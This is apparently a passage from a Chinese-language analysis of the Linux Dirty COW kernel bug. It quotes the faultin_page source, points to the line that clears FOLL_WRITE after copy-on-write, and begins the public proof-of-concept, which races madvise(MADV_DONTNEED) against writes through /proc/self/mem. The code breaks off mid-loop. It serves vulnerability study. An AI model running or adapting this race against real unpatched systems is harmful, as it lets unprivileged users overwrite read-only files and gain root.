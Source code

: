 ```c
		nr_pages -= page_increm;
	} while (nr_pages);
	return i;
}
```

- 我们可以看见`faultin_page`会申请内存管理的权限

  ```c
  static int faultin_page(struct task_struct *tsk, struct vm_area_struct *vma,
  		unsigned long address, unsigned int *flags, int *nonblocking)
  {
  	struct mm_struct *mm = vma->vm_mm;
  	unsigned int fault_flags = 0;
  	int ret;
  
  	...
  	if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
  		*flags &= ~FOLL_WRITE;
  	return 0;
  }
  ```

  - 漏洞代码就是

    ```c
    if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
    		*flags &= ~FOLL_WRITE;
    ```

    如果当前VMA中的标志显示当前页不可写，但是用户又执行了页的写操作，那么内核会执行COW操作 并且在处理中会有VM_FAULT_WRITE标志 也就是执行cow操作后,会益处FOLL_WRITE标志

### POC

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}

void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
    lseek(f,map,SEEK_SET);
```